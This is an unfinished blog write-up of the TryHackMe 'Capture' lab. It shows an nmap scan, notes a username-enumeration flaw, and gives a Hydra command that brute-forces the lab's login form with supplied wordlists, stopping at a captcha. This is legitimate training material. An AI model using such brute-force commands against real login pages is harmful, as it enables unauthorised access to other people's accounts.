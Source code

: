 ```yaml
---
layout: post
title: "Capture"
date: 2023-06-17 
categories: ["Hands-on", "TryHackMe"]
tags: "Python"
---
```


# Capture: Updating
> https://tryhackme.com/room/capture

I downloaded the zip file that contains the login usernames and password that will be used to brurteforce into the login form !

## Nmap
```bash
nmap -sS -Pn [ip]

PORT     STATE SERVICE VERSION
80/tcp   open  http
```

I opened the website and its a login page, tried the usual default usernames and passwords. I noticed that it does say if the username exists or not!


## Hydra

```bash
hydra -L usernames.txt -P passwords.txt "http-post-form://10.10.224.246/login:username=^USER^&password=^PASS^:Error"
```

I get the 'Too many bad login attempts' error message with a mathematical Captcha, for this we need to build a script!.




